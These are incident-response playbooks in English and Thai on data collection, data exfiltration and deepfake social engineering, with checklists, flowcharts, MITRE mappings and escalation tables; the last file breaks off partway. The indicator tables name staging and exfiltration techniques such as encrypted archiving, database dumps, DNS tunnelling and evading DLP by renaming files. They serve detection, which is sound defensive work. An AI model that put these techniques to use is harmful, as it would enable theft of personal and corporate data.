    Cloud["☁️ Cloud DLP"] --> SIEM
    Email["📧 Email DLP"] --> SIEM
    SIEM --> SOC["🎯 SOC Alert"]
    style Endpoint fill:#3498db,color:#fff
    style Cloud fill:#27ae60,color:#fff
    style SOC fill:#e74c3c,color:#fff
```

### Insider Data Theft Indicators

```mermaid
graph TD
    UEBA["🔍 UEBA"] --> Type{"📋 Indicator?"}
    Type --> Resign["📝 Upcoming resignation"]
    Type --> Hours["🕐 Off-hours access"]
    Type --> Volume["📊 Excessive downloads"]
    Type --> USB["💾 USB data copy"]
    Resign --> Risk["⚠️ High Risk"]
    Hours --> Risk
    Volume --> Risk
    USB --> Risk
    style Risk fill:#e74c3c,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Data Collection and Staging | [sigma/win_data_collection_staging.yml](../../08_Detection_Engineering/sigma_rules/win_data_collection_staging.yml) |
| Bulk File Copy to USB | [file_bulk_usb_copy.yml](../../08_Detection_Engineering/sigma_rules/file_bulk_usb_copy.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [Data Exfiltration Playbook](Data_Exfiltration.en.md)
- [Insider Threat Playbook](Insider_Threat.en.md)
- [Network Discovery Playbook](Network_Discovery.en.md)
- [PDPA Compliance](../../07_Compliance_Privacy/PDPA_Compliance.en.md)
- [Data Handling Protocol](../../06_Operations_Management/Data_Handling_Protocol.en.md)

## References

- [MITRE ATT&CK — Collection](https://attack.mitre.org/tactics/TA0009/)
- [MITRE T1560 — Archive Collected Data](https://attack.mitre.org/techniques/T1560/)
- [MITRE T1119 — Automated Collection](https://attack.mitre.org/techniques/T1119/)
- [MITRE T1074 — Data Staged](https://attack.mitre.org/techniques/T1074/)
- [MITRE T1213 — Data from Information Repositories](https://attack.mitre.org/techniques/T1213/)


---

## File: 05_Incident_Response/Playbooks/Data_Collection.th.md

# Playbook: Data Collection / การเก็บรวบรวมข้อมูล

**ID**: PB-20
**ระดับความรุนแรง**: สูง | **หมวดหมู่**: ความปลอดภัยข้อมูล
**MITRE ATT&CK**: [T1005](https://attack.mitre.org/techniques/T1005/) (Data from Local System), [T1039](https://attack.mitre.org/techniques/T1039/) (Data from Network Shared Drive), [T1213](https://attack.mitre.org/techniques/T1213/) (Data from Information Repositories)
**ทริกเกอร์**: DLP alert, UEBA (unusual file access), EDR (archive creation), insider threat indicator


## หลังเหตุการณ์ (Post-Incident)

- [ ] อัพเดท DLP rules ตาม staging path patterns ที่พบ
- [ ] เพิ่ม file archiver monitoring ใน EDR policy
- [ ] ทำ user access review สำหรับ data repositories
- [ ] สร้าง Sigma rule สำหรับ bulk file access patterns
- [ ] ทบทวน data classification labels
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังขั้นตอน Data Staging

```mermaid
graph LR
    Access["📁 Access Data"] --> Copy["📋 Copy/Download"]
    Copy --> Stage["📦 Stage (archive)"]
    Stage --> Encrypt["🔒 Encrypt"]
    Encrypt --> Exfil["📤 Exfiltrate"]
    style Access fill:#3498db,color:#fff
    style Stage fill:#f39c12,color:#fff
    style Exfil fill:#e74c3c,color:#fff
```

### ผัง UEBA Detection

```mermaid
sequenceDiagram
    participant User as ผู้ใช้
    participant UEBA
    participant SOC
    participant HR
    User->>User: Download 500 files (ปกติ = 10/วัน)
    UEBA->>SOC: 🚨 Anomaly score สูง
    SOC->>HR: ผู้ใช้กำลังลาออก?
    HR-->>SOC: ใช่ — last day พรุ่งนี้!
    SOC->>SOC: 🔴 เพิ่ม monitoring + preserve
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Data Collection Alert"] --> Source{"📍 แหล่งข้อมูล?"}
    Source -->|Local Files| Local["💻 Local System"]
    Source -->|Network Shares| Share["📁 File Shares"]
    Source -->|SharePoint/Teams| Cloud["☁️ Cloud Repos"]
    Source -->|Database| DB["🗄️ Database Query"]
    Local --> Intent{"🤔 เจตนา?"}
    Share --> Intent
    Cloud --> Intent
    DB --> Intent
    Intent -->|Business Need| FP["✅ ไม่ใช่เหตุการณ์"]
    Intent -->|ผิดปกติ| Staging{"📦 Staging for Exfil?"}
    Staging -->|ใช่| Exfil["🔴 ยกระดับ PB-08"]
    Staging -->|ไม่แน่ใจ| Monitor["🟠 เพิ่ม Monitoring"]
```

---

## 1. การวิเคราะห์

### 1.1 แหล่งข้อมูลที่มักถูกเก็บรวบรวม

| แหล่ง | ตัวบ่งชี้ | MITRE | เครื่องมือตรวจจับ |
|:---|:---|:---|:---|
| **Local system** | Archive creation (7z, rar, zip), large copy | T1005 | EDR / DLP |
| **Network shares** | Bulk file access, recursive copy | T1039 | File audit / DLP |
| **SharePoint / Teams / Confluence** | Bulk download, API scraping | T1213 | CASB / Cloud audit |
| **Email / Mailbox** | Export PST, search+download | T1114 | DLP / Exchange audit |
| **Database** | Large query, dump export (pg_dump, mysqldump) | T1005 | DB audit logs |
| **Source code repo** | `git clone` ขนาดใหญ่, API download | T1213 | SCM audit | 
| **Screenshots / clipboard** | Screen capture tools, clipboard access | T1113 | EDR |

### 1.2 Staging Indicators

| ตัวบ่งชี้ | ตัวอย่าง |
|:---|:---|
| **Archive creation** | 7z, rar, zip ขนาดใหญ่ใน temp/desktop |
| **Encryption** | rar -p, 7z -pPASSWORD (password-protected) |
| **Rename** | เปลี่ยนนามสกุลไฟล์เพื่อหลีก DLP |
| **Staging directory** | ย้ายไฟล์ไปยัง temp, recycle bin, hidden folder |
| **Cloud upload prep** | Copy to cloud sync folder (Dropbox, GDrive) |

### 1.3 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ใครเข้าถึงข้อมูล? | DLP / UEBA / AD logs | ☐ |
| ข้อมูลอะไร? จำแนกประเภท (PII, IP, financial) | Data classification | ☐ |
| ปริมาณที่เข้าถึง (จำนวนไฟล์, ขนาด) | File audit | ☐ |
| ผิดปกติเมื่อเทียบกับ baseline? | UEBA | ☐ |
| เป็นส่วนหนึ่งของหน้าที่การงาน? | Manager interview | ☐ |
| มี staging (archive, encrypt, copy to temp)? | EDR / DLP | ☐ |
| มี exfiltration ตามมา? (upload, USB, email) | DLP / CASB | ☐ |
| ผู้ใช้กำลังจะลาออก/ถูก PIP? | HR check | ☐ |

---

## 2. การควบคุม

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **เพิ่ม DLP monitoring** บนผู้ใช้/host | DLP / CASB | ☐ |
| 2 | **จำกัด** network share / cloud access ชั่วคราว | IAM / CASB | ☐ |
| 3 | **Block** USB / external upload (ถ้ามี staging) | EDR / GPO | ☐ |
| 4 | **Preserve** evidence (copy of staged files, logs) | Forensics | ☐ |
| 5 | หากเจตนาร้ายยืนยัน → **ล็อกบัญชี** | IAM | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบ staged archives / copies | ☐ |
| 2 | ลบ collection tools (ถ้าใช้ automated tool) | ☐ |
| 3 | กู้คืน access permissions ที่ถูกแก้ไข | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ใช้ **DLP content-aware policies** (PII, financial, IP) | ☐ |
| 2 | เปิด **UEBA** สำหรับ abnormal file access patterns | ☐ |
| 3 | ตั้ง **data classification + labeling** (auto + manual) | ☐ |
| 4 | จำกัด **least privilege** access สำหรับ sensitive repos | ☐ |
| 5 | เปิด **file access auditing** บน critical shares/repos | ☐ |
| 6 | ใช้ **IRM/DRM** สำหรับข้อมูลที่สำคัญมาก | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Staging + exfiltration ยืนยัน | [PB-08 Data Exfiltration](Data_Exfiltration.th.md) |
| Insider threat ยืนยัน | [PB-14 Insider Threat](Insider_Threat.th.md) + HR |
| PII / customer data ถูกเข้าถึง | Legal + DPO (PDPA 72 ชม.) |
| Source code / IP ถูก collect | CISO + Legal |
| ผู้ใช้กำลังลาออก + bulk download | HR + SOC Lead ทันที |

---

### ผัง DLP Architecture

```mermaid
graph LR
    Endpoint["💻 Endpoint DLP"] --> SIEM["📊 SIEM"]
    Network["🌐 Network DLP"] --> SIEM
    Cloud["☁️ Cloud DLP"] --> SIEM
    Email["📧 Email DLP"] --> SIEM
    SIEM --> SOC["🎯 SOC Alert"]
    style Endpoint fill:#3498db,color:#fff
    style Cloud fill:#27ae60,color:#fff
    style SOC fill:#e74c3c,color:#fff
```

### ผัง Insider Data Theft Indicators

```mermaid
graph TD
    UEBA["🔍 UEBA"] --> Type{"📋 Indicator?"}
    Type --> Resign["📝 ลาออกเร็วๆ"]
    Type --> Hours["🕐 เข้าถึงนอกเวลา"]
    Type --> Volume["📊 Download มาก"]
    Type --> USB["💾 USB ถ่ายข้อมูล"]
    Resign --> Risk["⚠️ High Risk"]
    Hours --> Risk
    Volume --> Risk
    USB --> Risk
    style Risk fill:#e74c3c,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Data Collection and Staging | [sigma/win_data_collection_staging.yml](../../08_Detection_Engineering/sigma_rules/win_data_collection_staging.yml) |
| Bulk File Copy to USB | [file_bulk_usb_copy.yml](../../08_Detection_Engineering/sigma_rules/file_bulk_usb_copy.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-08 Data Exfiltration](Data_Exfiltration.th.md)
- [PB-14 Insider Threat](Insider_Threat.th.md)

## Data Staging Detection

| Indicator | Source | Detection |
|:---|:---|:---|
| Bulk file copy to temp | EDR file events | Volume threshold |
| Archive creation (zip/rar) | Process monitoring | New archiver process |
| Clipboard data hoarding | DLP | Content analysis |
| Database export | DB audit logs | Large SELECT queries |
| Screenshot capture | EDR | Screen capture tools |

### Data Collection TTPs (MITRE ATT&CK)

| Technique | ID | Detection Priority |
|:---|:---|:---|
| Data from Local System | T1005 | High |
| Data from Network Share | T1039 | High |
| Input Capture | T1056 | Medium |
| Screen Capture | T1113 | Medium |
| Archive Collected Data | T1560 | Critical |
| Data Staged | T1074 | Critical |

### Data Classification Impact

| Data Type | Risk If Collected | Response |
|:---|:---|:---|
| PII/PHI | Critical | PDPA notification |
| Financial | High | Legal + audit |
| IP/Trade secrets | Critical | Legal + forensics |
| Internal docs | Medium | Assess scope |

### Collection Method Indicators

| Method | Log Source | Alert |
|:---|:---|:---|
| Bulk file copy | EDR | Volume threshold |
| Archive creation | Process log | Archiver from user |
| DB export | DB audit | Large query result |

## อ้างอิง

- [MITRE ATT&CK — Collection](https://attack.mitre.org/tactics/TA0009/)


---

## File: 05_Incident_Response/Playbooks/Data_Exfiltration.en.md

# Playbook: Data Exfiltration

**ID**: PB-08
**Severity**: Critical | **Category**: Data Protection
**MITRE ATT&CK**: [T1048](https://attack.mitre.org/techniques/T1048/) (Exfiltration Over Alternative Protocol), [T1567](https://attack.mitre.org/techniques/T1567/) (Exfiltration Over Web Service), [T1041](https://attack.mitre.org/techniques/T1041/) (Exfiltration Over C2 Channel)
**Trigger**: DLP alert, Netflow anomaly, UEBA, Proxy/Cloud alert, EDR large file operation

### Detection by Channel

```mermaid
graph TD
    DLP["🔍 DLP Engine"] --> Ch{"📡 Channel?"}
    Ch -->|Web Upload| Proxy["🌐 Proxy / CASB"]
    Ch -->|Email| Mail["📧 Mail Gateway"]
    Ch -->|USB| Endpoint["💻 Endpoint DLP"]
    Ch -->|DNS| DNS["🔤 DNS Analytics"]
    Proxy --> Alert["🚨 Alert SOC"]
    Mail --> Alert
    Endpoint --> Alert
    DNS --> Alert
    Alert --> Investigate["🔎 Investigate"]
```

### Data Impact Assessment

```mermaid
sequenceDiagram
    participant SOC
    participant DLP
    participant Legal
    participant DPO
    SOC->>DLP: What data was exfiltrated?
    DLP-->>SOC: PII — 500 records
    SOC->>Legal: 📋 Incident report
    Legal->>DPO: PDPA notification required?
    DPO-->>Legal: Yes — within 72 hours
    Legal->>SOC: Prepare notification report
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 DLP / Anomaly Alert"] --> Classify{"📄 Data Classification?"}
    Classify -->|L1 Public| FP["✅ Low Risk — Monitor"]
    Classify -->|L2 Internal| Review["⚠️ Review Context"]
    Classify -->|L3 Confidential| Urgent["🔴 Urgent Investigation"]
    Classify -->|L4 Restricted/PII| Critical["🚨 Critical — Notify Legal"]
    Review --> Dest{"🌐 Destination?"}
    Urgent --> Dest
    Critical --> Dest
    Dest -->|Corporate/Approved| Context["Check Business Justification"]
    Dest -->|Personal Cloud/Unknown| Block["🛑 Block + Investigate"]
    Dest -->|Known Malicious| Block
    Context -->|Justified| Close["Close with Documentation"]
    Context -->|Unjustified| Block
    Block --> Isolate["🔌 Isolate Source"]
```

---

## 1. Analysis (Triage)

### 1.1 Initial Assessment

| Check | How | Done |
|:---|:---|:---:|
| Data volume transferred | DLP / Proxy logs — anomalous for this user? | ☐ |
| Destination IP/domain | Trusted or unknown? Check reputation | ☐ |
| Data classification | PII, financial, IP, credentials? | ☐ |
| Protocol used | HTTP/S, FTP, DNS tunneling, USB? | ☐ |
| User context | Normal behavior or first-time transfer? | ☐ |

### 1.2 Exfiltration Method Identification

| Method | Detection Source | MITRE ID |
|:---|:---|:---|
| Upload to personal cloud (Google Drive, Dropbox) | Proxy / CASB | T1567.002 |
| Email to external address | DLP / Email Gateway | T1048.003 |
| USB/removable media | DLP / Endpoint agent | T1052.001 |
| DNS tunneling | DNS logs (high entropy/length) | T1048.001 |
| FTP/SCP/SFTP to external server | Firewall / IDS | T1048 |
| Encoded/encrypted upload | Proxy (content inspection) | T1048.002 |
| Cloud sync (OneDrive, iCloud) | CASB / Endpoint | T1567 |
| Print to PDF / screenshot | Endpoint monitoring | T1113 |

### 1.3 Scope Assessment

- [ ] Total volume of data transferred (MB/GB)?
- [ ] How long has the exfiltration been occurring?
- [ ] Exactly which files/databases were accessed?
- [ ] Was data staged before exfiltration? ([PB-35](Data_Collection.en.md))
- [ ] Is this insider threat or external attacker?
- [ ] Multiple users/endpoints involved?

---

## 2. Containment

### 2.1 Immediate Actions (within 10 minutes)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Block destination** IP/domain at firewall/proxy | Firewall, Proxy | ☐ |
| 2 | **Isolate source** endpoint from network | EDR | ☐ |
| 3 | **Disable user account** (if user-driven) | AD / IdP | ☐ |
| 4 | **Revoke active sessions** | IdP | ☐ |
| 5 | **Preserve evidence** — snapshot/image the source system | Forensics | ☐ |

### 2.2 Additional Containment

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Block USB/removable media on endpoint (if USB method) | ☐ |
| 2 | Disable user's cloud sync application | ☐ |
| 3 | Place legal hold on user's mailbox and cloud storage | ☐ |
| 4 | Block similar transfers org-wide (if widespread) | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Remove any staging files (RAR/ZIP archives) from source | ☐ |
| 2 | Scan for persistence / backdoors left by attacker | ☐ |
| 3 | Remove any unauthorized scripts or scheduled tasks | ☐ |
| 4 | Verify no additional exfiltration channels remain | ☐ |

---

## 4. Recovery & Legal

### 4.1 Damage Assessment

| Question | Answer |
|:---|:---|
| What data was exfiltrated? | [File list / description] |
| Classification level? | L1 / L2 / L3 / L4 |
| Number of records (if PII)? | |
| Business impact? | |
| Regulatory notification required? | PDPA (72h) / GDPR / Other |

### 4.2 Notification

| Stakeholder | When | Condition |
|:---|:---|:---|
| SOC Lead | Immediately | All confirmed cases |
| Legal / Compliance | Within 1 hour | If L3+ data or PII involved |
| CISO | Within 2 hours | If L4 data or regulatory impact |
| Data Protection Officer | Within 24 hours | If PII of data subjects |
| Regulatory authority | Within 72 hours | If PDPA/GDPR breach confirmed |
| Affected individuals | Per legal guidance | If personal data exposed |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Destination IP(s) | | Firewall / Proxy |
| Destination Domain(s) | | DNS / Proxy |
| Source Host | | DLP / EDR |
| Source User | | DLP / SIEM |
| Protocol / Port | | Firewall |
| File Names | | DLP |
| Data Volume | | Proxy / DLP |
| Staging Path | | EDR |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| L3/L4 data confirmed exfiltrated | CISO + Legal |
| PII of > 500 individuals | DPO + Regulatory |
| Insider threat suspected | HR + Legal + [PB-14](Insider_Threat.en.md) |
| External attacker (APT) | Threat Intel + External IR |
| Multiple endpoints involved | Major Incident |
| Data staging found | Cross-reference [PB-35](Data_Collection.en.md) |

---

### Exfiltration Channels

```mermaid
graph TD
    Exfil["📤 Exfiltration"] --> Web["🌐 Web upload"]
    Exfil --> Email["📧 Email attach"]
    Exfil --> Cloud["☁️ Cloud sync"]
    Exfil --> USB["💾 USB"]
    Exfil --> DNS["🔤 DNS tunnel"]
    Web --> DLP["🛡️ DLP inspect"]
    Email --> DLP
    Cloud --> DLP
    USB --> EDR["🔍 EDR block"]
    DNS --> NDR["📡 NDR detect"]
    style Exfil fill:#e74c3c,color:#fff
    style DLP fill:#27ae60,color:#fff
```

### Data Loss Prevention Pipeline

```mermaid
sequenceDiagram
    participant User
    participant DLP
    participant SOC
    participant Manager
    User->>DLP: Upload 500MB to Google Drive
    DLP->>DLP: Scan: PII detected!
    DLP-->>User: ❌ Blocked
    DLP->>SOC: 🚨 Alert: PII exfiltration attempt
    SOC->>Manager: Notify team lead
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Large Upload to External IP | [net_large_upload.yml](../../08_Detection_Engineering/sigma_rules/net_large_upload.yml) |
| Bulk File Copy to USB | [file_bulk_usb_copy.yml](../../08_Detection_Engineering/sigma_rules/file_bulk_usb_copy.yml) |
| Data Collection and Staging | [sigma/win_data_collection_staging.yml](../../08_Detection_Engineering/sigma_rules/win_data_collection_staging.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-14 Insider Threat](Insider_Threat.en.md)
- [PB-35 Data Collection](Data_Collection.en.md)
- [Data Governance Policy](../../07_Compliance_Privacy/Data_Governance_Policy.en.md)
- [PDPA Compliance](../../07_Compliance_Privacy/PDPA_Compliance.en.md)

## References

- [MITRE ATT&CK T1048 — Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)
- [NIST SP 800-61r2 — Incident Handling](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)


---

## File: 05_Incident_Response/Playbooks/Data_Exfiltration.th.md

# Playbook: การนำข้อมูลออก (Data Exfiltration)

**ID**: PB-08
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: ความปลอดภัยข้อมูล
**MITRE ATT&CK**: [T1041](https://attack.mitre.org/techniques/T1041/) (Exfiltration Over C2 Channel), [T1048](https://attack.mitre.org/techniques/T1048/) (Exfiltration Over Alternative Protocol), [T1567](https://attack.mitre.org/techniques/T1567/) (Exfiltration Over Web Service)
**ทริกเกอร์**: DLP alert, Netflow anomaly, UEBA alert, proxy/cloud alert, EDR large file copy


## หลังเหตุการณ์ (Post-Incident)

- [ ] อัพเดท DLP policies ตาม exfiltration channel ที่พบ
- [ ] ทบทวน outbound network rules (cloud, USB, email)
- [ ] แจ้ง Legal/DPO ถ้ามี PII รั่วไหล (PDPA 72h)
- [ ] สร้าง detection rule สำหรับ anomalous data transfer
- [ ] ทำ data impact assessment
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังการตรวจจับตามช่องทาง

```mermaid
graph TD
    DLP["🔍 DLP Engine"] --> Ch{"📡 ช่องทาง?"}
    Ch -->|Web Upload| Proxy["🌐 Proxy / CASB"]
    Ch -->|Email| Mail["📧 Mail Gateway"]
    Ch -->|USB| Endpoint["💻 Endpoint DLP"]
    Ch -->|DNS| DNS["🔤 DNS Analytics"]
    Proxy --> Alert["🚨 Alert SOC"]
    Mail --> Alert
    Endpoint --> Alert
    DNS --> Alert
    Alert --> Investigate["🔎 Investigate"]
```

### ผังการประเมินผลกระทบข้อมูล

```mermaid
sequenceDiagram
    participant SOC
    participant DLP
    participant Legal
    participant DPO
    SOC->>DLP: ข้อมูลอะไรถูกนำออก?
    DLP-->>SOC: PII 500 records
    SOC->>Legal: 📋 รายงานเหตุการณ์
    Legal->>DPO: ต้องแจ้ง PDPA?
    DPO-->>Legal: ใช่ — ภายใน 72 ชม.
    Legal->>SOC: เตรียมรายงานแจ้งเตือน
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Data Exfiltration Alert"] --> Channel{"📡 ช่องทาง?"}
    Channel -->|Cloud Upload| Cloud["☁️ SaaS / Cloud Storage"]
    Channel -->|Email| Email["📧 Email Attachment"]
    Channel -->|USB| USB["💾 Removable Media"]
    Channel -->|DNS/Tunnel| DNS["🌐 Covert Channel"]
    Channel -->|Physical| Phys["📸 Print / Camera"]
    Cloud --> Data{"📁 ข้อมูลอะไร?"}
    Email --> Data
    USB --> Data
    DNS --> Data
    Phys --> Data
    Data -->|PII / ลูกค้า| Critical["🔴 Legal + DPO ทันที"]
    Data -->|IP / Source Code| High["🔴 CISO ทันที"]
    Data -->|Internal non-sensitive| Medium["🟠 บล็อก + สอบสวน"]
```

---

## 1. การวิเคราะห์

### 1.1 ช่องทางนำข้อมูลออก

| ช่องทาง | ตัวบ่งชี้ | การตรวจจับ | ความรุนแรง |
|:---|:---|:---|:---|
| **HTTPS upload** (Google Drive, Dropbox, Mega) | Upload volume สูง | DLP / CASB / Proxy | 🔴 สูง |
| **อีเมล** (แนบไฟล์ / body) | ไฟล์ขนาดใหญ่, ปริมาณมาก, external recipient | DLP / Mail gateway | 🟠 สูง |
| **USB / Removable Media** | Copy ไฟล์ไป USB, CD burning | EDR / DLP endpoint | 🟠 สูง |
| **DNS tunneling** | Payload ใน DNS queries (high entropy) | DNS analytics | 🔴 สูง |
| **FTP / SCP / SFTP** | Outbound file transfer, port 21/22 | Netflow / Firewall | 🟠 สูง |
| **Airdrop / Bluetooth** | Wireless file transfer | Endpoint control | 🟡 ปานกลาง |
| **พิมพ์ / ถ่ายรูป / คัดลอก** | Physical exfiltration | DLP / กล้อง / policy | 🟡 ปานกลาง |
| **Steganography** | ซ่อนข้อมูลในรูปภาพ/ไฟล์ | Advanced DLP | 🔴 สูง |

### 1.2 การจำแนกประเภทข้อมูล

| ประเภท | ตัวอย่าง | ความรุนแรง | การแจ้งเตือน |
|:---|:---|:---|:---|
| **PII / ข้อมูลส่วนบุคคล** | ชื่อ, เลขบัตร, ที่อยู่ | 🔴 วิกฤต | PDPA 72 ชม. |
| **ข้อมูลทางการเงิน** | บัญชีธนาคาร, credit card | 🔴 วิกฤต | PCI-DSS + Legal |
| **IP / Source Code** | Design documents, code repos | 🔴 วิกฤต | CISO + Legal |
| **ข้อมูลธุรกิจ** | สัญญา, pricing, strategy | 🟠 สูง | CISO + Management |
| **ข้อมูลภายในทั่วไป** | Internal docs, policies | 🟡 ปานกลาง | SOC Lead |

### 1.3 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ข้อมูลอะไรถูกนำออก? จำแนกประเภท | DLP / data classification | ☐ |
| ปริมาณเท่าไหร่? (MB/GB?) | Proxy / Netflow / DLP | ☐ |
| ช่องทางอะไร? | DLP / EDR / SIEM | ☐ |
| ใคร / process ใด? | UEBA / EDR | ☐ |
| ปลายทาง (destination IP/domain)? | Proxy / DNS / Netflow | ☐ |
| เจตนาร้ายหรือไม่ตั้งใจ? | Context + interview | ☐ |
| ระยะเวลา (ครั้งเดียว vs ต่อเนื่อง)? | DLP timeline | ☐ |
| มี access ข้อมูลเพิ่มเติมก่อน exfil? | File audit / UEBA | ☐ |

---

## 2. การควบคุม

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **บล็อก** destination IP/domain | Firewall / Proxy | ☐ |
| 2 | **Isolate** host ต้นทาง | EDR | ☐ |
| 3 | **ล็อกบัญชี** ผู้ใช้ (ถ้าเจตนาร้าย) | IAM | ☐ |
| 4 | **บล็อก** USB ports (หาก USB exfil) | EDR / GPO | ☐ |
| 5 | **เพิ่ม DLP monitoring** บนบัญชี/host อื่น | DLP | ☐ |
| 6 | **ยึด USB/อุปกรณ์** ที่ใช้ exfil | Physical | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบ malware/tools ที่ใช้ exfiltrate | ☐ |
| 2 | ลบ persistence (staging directories, scripts) | ☐ |
| 3 | หมุนเวียน credentials ที่เกี่ยวข้อง | ☐ |
| 4 | ตรวจว่ามีข้อมูลถูก stage แต่ยังไม่ exfil | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | เพิ่ม **DLP rules** สำหรับข้อมูลสำคัญ (PII, IP, financial) | ☐ |
| 2 | จำกัด **USB / removable media** (GPO/EDR) | ☐ |
| 3 | เปิด **egress filtering** (block unauthorized uploads) | ☐ |
| 4 | จำแนกและติดแท็กข้อมูลสำคัญ (**data classification**) | ☐ |
| 5 | เปิด **CASB** สำหรับ cloud upload monitoring | ☐ |
| 6 | ทบทวน **DLP policy** ทุกไตรมาส | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| PII / ข้อมูลลูกค้ารั่วไหล | Legal + DPO (**PDPA 72 ชม.**) |
| ทรัพย์สินทางปัญญา / source code | Legal + CISO |
| เจตนาร้าย (insider threat) | [PB-14 Insider Threat](Insider_Threat.th.md) + HR |
| ปริมาณมาก (>100 MB) | SOC Lead |
| DNS tunneling / covert channel | [PB-25 DNS Tunneling](DNS_Tunneling.th.md) |
| ข้อมูลถูกขายบน dark web | Legal + Law Enforcement |

---

### ผัง Exfiltration Channels

```mermaid
graph TD
    Exfil["📤 Exfiltration"] --> Web["🌐 Web upload"]
    Exfil --> Email["📧 Email attach"]
    Exfil --> Cloud["☁️ Cloud sync"]
    Exfil --> USB["💾 USB"]
    Exfil --> DNS["🔤 DNS tunnel"]
    Web --> DLP["🛡️ DLP inspect"]
    Email --> DLP
    Cloud --> DLP
    USB --> EDR["🔍 EDR block"]
    DNS --> NDR["📡 NDR detect"]
    style Exfil fill:#e74c3c,color:#fff
    style DLP fill:#27ae60,color:#fff
```

### ผัง Data Loss Prevention Pipeline

```mermaid
sequenceDiagram
    participant User
    participant DLP
    participant SOC
    participant Manager
    User->>DLP: Upload 500MB to Google Drive
    DLP->>DLP: Scan: PII detected!
    DLP-->>User: ❌ Blocked
    DLP->>SOC: 🚨 Alert: PII exfiltration attempt
    SOC->>Manager: แจ้งหัวหน้าทีม
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Large Upload to External IP | [net_large_upload.yml](../../08_Detection_Engineering/sigma_rules/net_large_upload.yml) |
| Bulk File Copy to USB | [file_bulk_usb_copy.yml](../../08_Detection_Engineering/sigma_rules/file_bulk_usb_copy.yml) |
| Data Collection and Staging | [sigma/win_data_collection_staging.yml](../../08_Detection_Engineering/sigma_rules/win_data_collection_staging.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-14 ภัยคุกคามจากภายใน](Insider_Threat.th.md)
- [PB-25 DNS Tunneling](DNS_Tunneling.th.md)

## Exfiltration Channel Detection

| Channel | Detection Method | Difficulty |
|:---|:---|:---|
| Email attachment | DLP content scan | Easy |
| Cloud upload | CASB + proxy logs | Medium |
| USB copy | Endpoint agent | Easy |
| DNS tunneling | DNS analytics | Hard |
| Encrypted channel | TLS inspection | Hard |
| Physical (camera/print) | DLP + physical security | Very Hard |

### Volume-based Alert Thresholds

| Data Type | Threshold | Time Window | Action |
|:---|:---|:---|:---|
| Any upload | > 500 MB | 1 hour | Alert SOC |
| PII/PHI | > 1 record | Any | Alert immediately |
| Source code | > 10 files | 1 day | Alert + block |
| Database export | > 1,000 rows | Single query | Alert + block |

### Data Loss Quantification

| Metric | Method |
|:---|:---|
| Volume (GB) | Network logs |
| Record count | DLP + DB audit |
| Duration | Timeline analysis |
| Data sensitivity | Classification review |

## อ้างอิง

- [MITRE ATT&CK — Exfiltration](https://attack.mitre.org/tactics/TA0010/)


---

## File: 05_Incident_Response/Playbooks/Deepfake_Social_Engineering.en.md

# Playbook: Deepfake Social Engineering Response

**ID**: PB-48
**Severity**: Critical | **Category**: Social Engineering / Fraud
**MITRE ATT&CK**: [T1598](https://attack.mitre.org/techniques/T1598/) (Phishing for Information), [T1204.001](https://attack.mitre.org/techniques/T1204/001/) (Malicious Link)
**Trigger**: Employee report (suspicious video/voice call from "executive"), unusual wire transfer request via video call, AI-generated voice message requesting credentials

> ⚠️ **CRITICAL**: Deepfake technology can clone voices with 3 seconds of audio and generate convincing video in real-time. Executive impersonation via deepfake has caused multi-million dollar fraud losses.

### Deepfake Attack Taxonomy

```mermaid
graph TD
    DF["🎭 Deepfake Attacks"] --> Voice["Voice Deepfake\nClone exec voice"]
    DF --> Video["Video Deepfake\nFake video call"]
    DF --> Text["AI Text Generation\nWriting style mimicry"]
    
    Voice --> VoiceBEC["CEO calls CFO\nwire $25M"]
    Voice --> VoiceVish["Fake IT support\n'reset your password'"]
    
    Video --> VideoBEC["Live video call\n'approve this transfer'"]
    Video --> VideoID["Fake identity\nbypass KYC"]
    
    Text --> TextBEC["Executive email\nperfect style match"]
    Text --> TextPhish["Personalized phishing\nAI-crafted lures"]
    
